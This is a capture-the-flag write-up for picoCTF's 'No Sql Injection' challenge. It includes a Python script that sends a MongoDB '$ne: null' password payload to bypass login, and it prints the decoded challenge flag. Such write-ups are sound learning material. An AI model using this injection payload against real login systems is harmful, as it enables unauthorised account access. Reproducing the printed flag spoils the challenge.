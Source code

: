 ```
No Sql Injection

Can you try to get access to this website to get the flag?
You can download the source here: https://artifacts.picoctf.net/c_atlas/37/app.tar.gz
```

Download, extract, and analyze the source code.

![](1.png)

Open server.js to see a possibly vulnerable API route:

![](2.png)

See the problem? It uses Mongoose (MongoDB library)'s `findOne()` function to get a user from MongoDB database.

This is called NoSQL Injection. Just like SQL Injection, we could enter malicious syntax to "sabotage" the query and get the data we want.

Both `email` and `password` allow JSON input, it's our golden ticket to enter MongoDB's query syntax. So yeah, let's do it.

Here's my Python script:

```py
import requests

URL = "http://atlas.picoctf.net:55596/login"

req = requests.post(URL, json={
    "email": "picoplayer355@picoctf.org",
    "password": "{ \"$ne\": null }"
    })

print(req.text)
```

In password, we use `$ne: null` which means "not equal to null". This will be always true, and Mongoose will happily ignore this and search based on Email input.

![](3.png)

Decode the `token` (Base64-encoded), and boom.

```
echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzY3YjFhM2M4fQ==" | base64 -d
```

Flag:

```
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_67b1a3c8}
```
